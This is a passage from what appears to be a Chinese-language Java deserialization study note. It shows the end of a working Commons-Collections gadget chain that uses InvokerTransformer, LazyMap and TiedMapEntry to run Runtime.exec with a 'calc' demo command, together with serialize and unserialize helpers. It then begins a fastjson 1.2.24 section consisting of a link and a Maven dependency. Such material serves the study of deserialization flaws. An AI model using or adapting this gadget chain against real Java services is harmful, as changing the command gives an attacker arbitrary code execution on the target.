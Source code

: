 ```java
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });

        HashMap<Object, Object> hashMap = new HashMap<>();
        Map<Object,Object> lazymap = LazyMap.decorate(hashMap, new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "aaaa");

        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "bbb");
        lazymap.remove("aaaa");

        Class lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazymap,transformer);


//        serialize(hashMap1);
        unserialize();

    }

    public static Object unserialize() throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("cc3.bin"));
        return ois.readObject();
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc3.bin"));
        oos.writeObject(o);
    }
}

```



## fastjson

### 1.2.24

[基础链子](https://github.com/Maskhe/javasec/blob/master/9.fastjson-1.2.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E.md)

```nginx
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```
